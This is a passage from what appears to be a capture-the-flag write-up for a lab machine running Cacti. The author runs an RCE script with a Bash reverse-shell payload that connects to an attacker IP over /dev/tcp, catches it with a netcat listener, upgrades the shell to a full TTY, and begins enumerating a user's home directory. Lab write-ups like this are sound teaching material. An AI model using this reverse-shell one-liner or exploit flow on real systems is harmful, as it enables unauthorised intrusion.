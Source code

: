 The script actually works as is to get a Bash reverse shell:



    oxdf@parrot$ python3 rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'
    [+] Got CSRF: sid:639ec65d813f5784fe4bb82daad753ff2561d247,1619176753;ip:a92d67e8550d3415eb2ab371711c94fa01ef2005,1619176753
    [+] Logged in with cookie: 9pl7kv48dc195jkqcon9v3tvs1
    [+] Uploaded payload



At this point it hangs, but at a `nc` listener:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 38374
    bash: cannot set terminal process group (1504): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@monitors:/usr/share/cacti/cacti$



I'll use the standard Python PTY trick to upgrade the shell:



    www-data@monitors:/usr/share/cacti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
    <ti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@monitors:/usr/share/cacti/cacti$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@monitors:/usr/share/cacti/cacti$



## Shell as marcus

*Actually getting to Marcus is not at all necessary to root the box.
I'll use SSH port forwarding as marcus in the next step, but that could
easily be [Chisel](https://github.com/jpillora/chisel) as www-data to
the same end.*

### Enumeration

#### Home Directory

marcus is the only user in `/home` (matching what was in `/etc/passwd`
from the LFI). Looking at the files in `/home/marcus`, there are two
things that jump out:



    www-data@monitors:/home/marcus$ ls -la
    total 40
    drwxr-xr-x 5 marcus marcus 4096 Jan 25 15:39 .
    drwxr-xr-x 3 root   root   4096 Nov 10 17:00 ..
    d--x--x--x 2 marcus marcus 4096 Nov 10 18:21 .backup
    lrwxrwxrwx 1 root   root      9 Nov 10 18:30 .bash_history -> /dev/null
    -rw-r--r-- 1 marcus marcus  220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 marcus marcus 3771 Apr  4  2018 .bashrc
    drwx------ 2 marcus marcus 4096 Jan 25 15:39 .cache
    drwx------ 3 marcus marcus 4096 Nov 10 17:00 .gnupg
    -rw-r--r-- 1 marcus marcus  807 Apr  4  2018 .profile
    -r--r----- 1 root   marcus   84 Jan 25 14:59 note.txt
    -r--r----- 1 root   marcus   33 Nov 10 18:29 user.txt
